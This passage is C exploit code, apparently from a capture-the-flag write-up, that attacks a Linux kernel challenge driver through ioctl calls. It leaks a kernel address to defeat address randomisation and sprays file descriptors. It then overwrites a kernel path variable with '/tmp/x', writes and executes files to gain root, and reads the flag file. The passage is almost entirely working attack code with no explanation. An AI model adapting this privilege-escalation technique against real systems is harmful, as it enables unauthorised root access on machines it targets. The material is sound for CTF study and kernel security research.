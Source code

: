 ```c=
	
	int ctf = open(ctfpath,2);
	ioctl(ctf,1337,0x2c0);
	char buf[0x100];
	read(ctf,buf,0x100);
	size_t* p = (size_t*)buf;
	size_t kaddr = p[3] - 0x20745e0;

	ioctl(ctf,1338,0x0);
	ioctl(ctf,1337,0x10);
	ioctl(ctf,1338,0x0);
	for(int i=0;i<0x100;i++){
		fd[i] = open(ctfpath,2);
	}
	for(int i=0;i<0x100;i++){
		ioctl(fd[i],1337,0x100*(i+1));
	}
	read(ctf,buf,0x10);
	int idx = p[1]/0x100-1;
	size_t payload[] = {kaddr+0x244DD40,0x100};
	write(ctf,payload,0x10);
	char path[] = "/tmp/x";
	write(fd[idx],path,sizeof(path));
	int mod = open(path,O_CREAT|O_WRONLY,0777);
	write(mod,msg,sizeof(msg));
	close(mod);

	int y = open(ybin,O_CREAT|O_WRONLY,0777);
	write(y,mess,sizeof(mess));
	close(y);
	execve(ybin,NULL,NULL);
	int flag = open(flagpath,0);
	read(flag,buf,0x100);
	write(1,buf,0x100);
	my_exit(0);
}

void my_exit(int status){
	 asm volatile ("syscall" :: "a"(SYS_exit));
}

int execve(const char *pathname, char *const argv[],
                  char *const envp[]){
	asm volatile ("syscall" :: "a"(SYS_execve));
}
int close(int fd){
	asm volatile ("syscall" :: "a"(SYS_close));
}

int ioctl(int fd, unsigned long request, ...){
	asm volatile ("syscall" :: "a"(SYS_ioctl));
}

int open (const char *__file, int __oflag, ...){
	asm volatile ("syscall" :: "a"(SYS_open));
}

ssize_t write (int __fd, const void *__buf, size_t __n){
	asm volatile ("syscall" :: "a"(SYS_write));
}

ssize_t read (int __fd, void *__buf, size_t __nbytes){
	asm volatile ("syscall" :: "a"(SYS_read));
```